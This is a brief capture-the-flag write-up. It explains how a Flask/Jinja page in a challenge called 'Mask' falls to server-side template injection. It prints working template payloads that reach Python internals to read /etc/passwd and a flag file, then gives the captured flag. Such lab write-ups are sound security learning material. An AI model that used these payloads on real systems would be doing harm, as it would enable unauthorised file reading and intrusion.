

# Mask

This website was developed in Flask. And it uses Jinja as a template engine. this was specifically mentioned on the website.  

So there must be some kind of template injection, to check I submitted `{{ 40 + 2 }}` and it rendered `42` on the page.


Then I tried to get `/etc/passwd` with the following template
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
```


It worked! Next thing to do was to find where the flag was stored, 
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]("flag.txt").read() }}
```
And it worked!


> ### LLS{server_side_template_injection_unmasked}